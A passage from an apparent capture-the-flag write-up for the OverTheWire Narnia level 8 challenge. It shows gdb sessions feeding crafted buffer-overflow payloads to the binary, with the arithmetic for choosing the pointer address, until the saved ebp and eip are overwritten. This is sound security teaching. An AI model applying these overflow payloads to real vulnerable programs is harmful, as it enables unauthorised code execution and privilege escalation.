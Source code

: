     (gdb) run $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xee\xd4\xff\xff")
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /narnia/narnia8 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xee\xd4\xff\xff")
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    AAAAAAAAAAAAAAAAAAAA������������

    Breakpoint 1, 0x080491e7 in func ()
    (gdb) x/16wx $esp
    0xffffd274:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd284:	0x41414141 [0xffffd4ee]	0xffffd298	0x08049201
    0xffffd294:[0xffffd4ee]	0x00000000	0xf7da1cb9	0x00000002
    0xffffd2a4:	0xffffd354	0xffffd360	0xffffd2c0	0xf7fade34

In the above gdb snapshot, one can see that the `blah` pointer now has the correct value
(inside brackets), which means that the rest of the payload after the address we appended 
to our `A`s, will overflow stuff inside the stack. But, there an important thing that we 
should be taken under consideration; If we decide to overflow lets say with 8 `\x42` bytes
then the address of our `blah` pointer, should be:

    address of `blah` pointer with 20 `A` (0xffffd4f2) - 4 (address of `blah`) - 8 (`\x42` bytes)

which means:

    0xffffd4f2 - 4 - 8 = 0xffffd4f2 - 12 = 0xffffd4e6

So our payload should look like: 

    $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe6\xd4\xff\xff\x42\x42\x42\x42\x42\x42\x42\x42")

After inspecting with gdb, one can see that the overflow is actually happening and both
the "$ebp" and "$eip" register values are overflowed with our `B`s.

    (gdb) run $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe6\xd4\xff\xff\x42\x42\x42\x42\x42\x42\x42\x42")
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /narnia/narnia8 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe6\xd4\xff\xff\x42\x42\x42\x42\x42\x42\x42\x42")
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    AAAAAAAAAAAAAAAAAAAA����BBBBBBBB����

    Breakpoint 1, 0x080491e7 in func ()
    (gdb) x/16wx $esp
    0xffffd274:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd284:	0x41414141	0xffffd4e6	0x42424242	0x42424242
    0xffffd294:	0xffffd4e6	0x00000000	0xf7da1cb9	0x00000002
    0xffffd2a4:	0xffffd354	0xffffd360	0xffffd2c0	0xf7fade34
    (gdb) x $ebp 
    0xffffd28c:	0x42424242
    (gdb) x $ebp + 4
    0xffffd290:	0x42424242


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html